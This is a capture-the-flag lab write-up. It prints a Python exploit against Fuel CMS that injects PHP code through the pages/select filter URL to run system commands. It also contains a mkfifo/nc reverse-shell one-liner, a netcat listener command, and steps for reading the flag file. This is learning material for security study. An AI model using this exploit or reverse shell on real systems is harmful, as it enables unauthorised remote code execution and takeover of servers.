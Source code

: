try:
   	 
	while True:
    	cmd = input(col.LIGHT_WHITE +"fuelCMS$ " + col.RESET)

    	if cmd[0:4].lower() == "exit":
        	print(col.RED + "Exiting..." + col.RESET)
        	sys.exit(0)

    	if cmd[0:8] == "shell_me":
        	IP2, PORT = input(col.LIGHT_BLUE + "Enter your attacking machine IP:PORT $ " + col.RESET).split(":")
        	nc = f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {IP2} {PORT} >/tmp/f"
        	cmd = nc
        	print(col.LIGHT_GREEN + "\nHope you had your listener ready!!" + col.RESET)
       	 
    	if cmd[0:4] == "help":
        	print(help())
        	continue
   	 
    	if not "/tmp/f;mkfifo" in cmd:
        	print(col.LIGHT_GRAY + "Sending request." + col.RESET)
    	cmd = urllib.parse.quote(cmd)
    	r = requests.get(f"http://{IP}/fuel/pages/select/?filter=%27%2Bpi(print(%24a%3D%27system%27))%2B%24a(%27"+ cmd +"%27)%2B%27")
    	if r.status_code == 200:
        	page = parsePage(r.text)
        	if page == "\n":
            	print(col.RED + "No result" + col.RESET)
            	continue
        	print(col.LIGHT_GREEN+ f"\n{page.strip()}" + col.RESET)

except Exception as e:
	print(col.RED + f"An error occurred, please try again...\n\n{e}" + col.RESET)

	Created listener to catch reverse shell:

	nc -nlvp 8081

	Execuled exploit against IP address:

python3 /usr/share/exploits/vulnerabilitiescapstone/exploit.py 10.10.69.70

Used ‘shell_me’ option to enter attacking machine IP and port:



	Reverse shell connected:

	
What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.
Used ls to identify flag.txt in /home/ubuntu and opened txt file using cat to recover flag.

